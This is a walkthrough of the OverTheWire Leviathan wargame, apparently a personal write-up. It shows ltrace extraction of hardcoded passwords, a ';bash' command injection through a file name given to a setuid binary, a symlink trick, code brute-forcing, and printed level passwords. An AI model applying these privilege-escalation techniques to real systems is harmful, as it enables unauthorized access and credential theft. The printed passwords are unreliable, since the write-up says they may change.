


## Target Information
- **Target**: Leviathan.labs.overthewire.org
- **Port**: 2223
- **Initial Username**: leviathan0
- **Initial Password**: leviathan0

## Challenge Description


## Steps to Solve
1. **Connect to the Target**: Use SSH to connect to the target using the provided credentials.
   
   ```bash
   ssh leviathan0@Leviathan.labs.overthewire.org -p 2223
   ```


2. **List Files**: List the files in the home directory to see what is available.

   ```bash
   leviathan0@gibson:~$ ls -la
   total 24
   drwxr-xr-x  3 root       root       4096 Apr 10 14:23 .
   drwxr-xr-x 83 root       root       4096 Apr 10 14:24 ..
   drwxr-x---  2 leviathan1 leviathan0 4096 Apr 10 14:23 .backup
   -rw-r--r--  1 root       root        220 Mar 31  2024 .bash_logout
   -rw-r--r--  1 root       root       3771 Mar 31  2024 .bashrc
   -rw-r--r--  1 root       root        807 Mar 31  2024 .profile
   ```

3. **Check the .backup Directory**: Navigate to the `.backup` directory to see if there are any files that can be used.

   ```bash
   leviathan0@gibson:~$ cd ./.backup/
   leviathan0@gibson:~/.backup$ ls
   bookmarks.html
   leviathan0@gibson:~/.backup$ ls -la
   total 140
   drwxr-x--- 2 leviathan1 leviathan0   4096 Apr 10 14:23 .
   drwxr-xr-x 3 root       root         4096 Apr 10 14:23 ..
   -rw-r----- 1 leviathan1 leviathan0 133259 Apr 10 14:23 bookmarks.html
   leviathan0@gibson:~/.backup$ file bookmarks.html 
   bookmarks.html: HTML document, ASCII text, with very long lines (302)
   leviathan0@gibson:~/.backup$ wc -l bookmarks.html 
   1399 bookmarks.html
   ```
4. **Search in the Bookmarks File**: As the bookmarks.html has a lot of lines, you can use `grep` to search for specific keywords "leviathan" for relevant information.

```bash
leviathan0@gibson:~/.backup$ grep "leviathan" bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```
5. **Leviathan1 Password**: The output from the grep command reveals the password for ` Leviathan1: 3QJ3TgzHDq`

6. **Connect to Leviathan1**: Use the password to connect to `leviathan1`.
```bash
ssh leviathan1@leviathan.labs.overthewire.org -p 2223
```
7. **List Files in Leviathan1**: Once connected, list the files in the home directory of `leviathan1`.

```bash
leviathan1@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan2 leviathan1 15084 Apr 10 14:23 check
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```
8. **Check the check File**: The `check` file is an executable file owned by `leviathan2`. We can run it to see if it provides any useful information.

```bash
leviathan1@gibson:~$ ./check
password: 
```
9. **Finding the Password for Leviathan2**: The `check` file prompts for a password. We can try to use `ltrace` to find function calls and see if it reveals the password.

```bash
ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
printf("password: ")                                                               = 10
getchar(0, 0, 0x786573, 0x646f67password: test
)                                                  = 116
getchar(0, 116, 0x786573, 0x646f67)                                                = 101
getchar(0, 0x6574, 0x786573, 0x646f67)                                             = 115
strcmp("tes", "sex")                                                               = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                               = 29
+++ exited (status 0) +++
```
ltrace shows that the program is checking the input against a hardcoded password. The password is **"sex"**.
```bash
./check
password: sex
$ whoami
leviathan2
```

With correct password, check file runs successfully and we are logged in as `leviathan2`. We can now retrieve the password for `leviathan2` from `/etc/leviathan_pass/leviathan2`.
```bash
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
```

Password for `leviathan2 : NsN1HwFoyN`.

10. **Connect to Leviathan2**: Use the password to connect to `leviathan2`.

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
11. **List Files in Leviathan2**: Once connected, list the files in the home directory of `leviathan2`.

```bash
$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15072 Apr 10 14:23 printfile
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```
12. **Check the printfile File**: The `printfile` file is an executable file owned by `leviathan3`. We can run it to see if it provides any useful information.

```bash
leviathan2@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
13. **Finding the Password for Leviathan3**: The `printfile` file prompts for a filename. We can try to use `ltrace` to find function calls.
```bash
ltrace ./printfile .bash_logout 
__libc_start_main(0x80490ed, 2, 0xffffd474, 0 <unfinished ...>
access(".bash_logout", 4)                                                          = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout")              = 21
geteuid()                                                                          = 12002
geteuid()                                                                          = 12002
setreuid(12002, 12002)                                                             = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                             = 0
+++ exited (status 0) +++
```
The `printfile` file uses the `access` function to check if the file exists and then uses `system` to execute the `cat` command on the file. The output of the `cat` command is printed to the console.

`access` function always checks with the same priviliges as the creator of the file, which is `leviathan3`. As there is no input sanitization, we can use this to our advantage as below:

```bash
leviathan2@gibson:~$ mkdir /tmp/mytmp
leviathan2@gibson:~$ touch "/tmp/mytmp/test;bash"
leviathan2@gibson:~$ ./printfile "/tmp/mytmp/test;bash"
/bin/cat: /tmp/mytmp/test: No such file or directory
leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3
f0n8h2iWLP
```
`test;bash` is a file that will execute the `bash` command when accessed due to lack of input sanitization. This allows us to switch to the `leviathan3` user.

Password for `leviathan3 : f0n8h2iWLP`.

14. **Connect to Leviathan3**: Use the password to connect to `leviathan3` and repeat the process of listing files.

```bash
ls -la
total 40
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan4 leviathan3 18100 Apr 10 14:23 level3
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```

15. **Check the level3 File**: The `level3` file is an executable file owned by `leviathan4`. We can run it to see if it provides any useful information.

```bash
leviathan3@gibson:~$ ./level3
Enter the password> test
bzzzzzzzzap. WRONG
leviathan3@gibson:~$ ltrace ./level3
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                     = -1
printf("Enter the password> ")                                                 = 20
fgets(Enter the password> test
"test\n", 256, 0xf7fae5c0)                                                     = 0xffffd26c
strcmp("test\n", "snlprintf\n")                                                = 1
puts("bzzzzzzzzap. WRONG", "bzzzzzzzzap. WRONG")                               = 19
+++ exited (status 0) +++
leviathan3@gibson:~$ ./level3
Enter the password> snlprintf
[You''ve got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
WG1egElCvO
```

Similar to the `printfile`, we can use `ltrace` to find the password for `level3`. `level3` file also uses `strcmp` to compare the input with a hardcoded password. The password is **"snlprintf"**.

With correct password, level3 file runs successfully and we are logged in as `leviathan4`. We can now retrieve the password for `leviathan4` from `/etc/leviathan_pass/leviathan4`.

Password for `leviathan4 : WG1egElCvO`.

16. **Connect to Leviathan4**: Use the password to connect to `leviathan4` and repeat the process of listing files.

```bash
ls -la
total 24
drwxr-xr-x  3 root root       4096 Apr 10 14:23 .
drwxr-xr-x 83 root root       4096 Apr 10 14:24 ..
-rw-r--r--  1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root root       3771 Mar 31  2024 .bashrc
-rw-r--r--  1 root root        807 Mar 31  2024 .profile
dr-xr-x---  2 root leviathan4 4096 Apr 10 14:23 .trash
```
17. **Check the .trash Directory**: Navigate to the `.trash` directory to see if there are any files that can be used.

```bash
leviathan4@gibson:~/.trash$ cd ../
leviathan4@gibson:~$ cd .trash
leviathan4@gibson:~/.trash$ ls -la
total 24
dr-xr-x--- 2 root       leviathan4  4096 Apr 10 14:23 .
drwxr-xr-x 3 root       root        4096 Apr 10 14:23 ..
-r-sr-x--- 1 leviathan5 leviathan4 14940 Apr 10 14:23 bin
leviathan4@gibson:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
leviathan4@gibson:~/.trash$ ltrace ./bin
__libc_start_main(0x80490ad, 1, 0xffffd464, 0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                                       = 0
+++ exited (status 255) +++
```
`.trash` directory contains a file named `bin`. The `bin` file is an executable file owned by `leviathan5`. When we run the `bin` file, it outputs a binary string. 

Using `ltrace`, we can see that the `bin` file tries to acess the file `/etc/leviathan_pass/leviathan5`, so it might be converting the password to binary format at some stage.

We can convert the binary string to ASCII:

```bash
~/.trash$ echo 0011000001100100011110010111100001010100001101110100011000110100010100010100010000001010 | perl -lpe '$_=pack"B*",$_'
0dyxT7F4QD
```

Password for `leviathan5 : 0dyxT7F4QD`.

18. **Connect to Leviathan5**: Use the password to connect to `leviathan5` and repeat the process of listing files.

```bash
ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 15144 Apr 10 14:23 leviathan5
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```
The `leviathan5` file is an executable file owned by `leviathan6`. We can run it to see if it provides any useful information.

```bash
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x804910d, 1, 0xffffd484, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                        = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                  = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

The `leviathan5` file tries to open a file named `/tmp/file.log`, which does not exist. This is likely a hint that we need to create this file.

19. **Create the /tmp/file.log File**: We can create the `/tmp/file.log` file and point it to the password for `leviathan6`.

```bash
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
szo7HDB88w
```
Password for `leviathan6 : szo7HDB88w`.

20. **Connect to Leviathan6**: Use the password to connect to `leviathan6` and repeat the process of listing files.

```bash
leviathan6@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 15036 Apr 10 14:23 leviathan6
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```
The `leviathan6` file is an executable file owned by `leviathan7`. We can run it to see if it provides any useful information.

```bash
leviathan6@gibson:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```
The `leviathan6` file prompts for a 4-digit code. `ltrace` and `strings` does not reveal a code. We can try brute-forcing the code using a simple script.

```bash
for i in $(seq -w 0000 9999); do echo -n "$i: "; ./leviathan6 $i; done
```

This will try all combinations of 4-digit codes from `0000` to `9999`. The combination `7123` worked and gave us shell as `leviathan7`.

```bash
$ whoami
leviathan7
```
We can now retrieve the password for `leviathan7` from `/etc/leviathan_pass/leviathan7`.

```bash
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
```
Password for `leviathan7 : qEs5Io5yM8`.

21. **Connect to Leviathan7**: Use the password to connect to `leviathan7` and repeat the process of listing files.

```bash
$ ls -la
total 24
drwxr-xr-x  2 root       root       4096 Apr 10 14:23 .
drwxr-xr-x 83 root       root       4096 Apr 10 14:24 ..
-rw-r--r--  1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root       3771 Mar 31  2024 .bashrc
-r--r-----  1 leviathan7 leviathan7  178 Apr 10 14:23 CONGRATULATIONS
-rw-r--r--  1 root       root        807 Mar 31  2024 .profile
```
The `CONGRATULATIONS` file is a text file that contains the final message for the challenge.


**Note:** The password might change over time, and the steps provided here are based on the current state of the challenge.
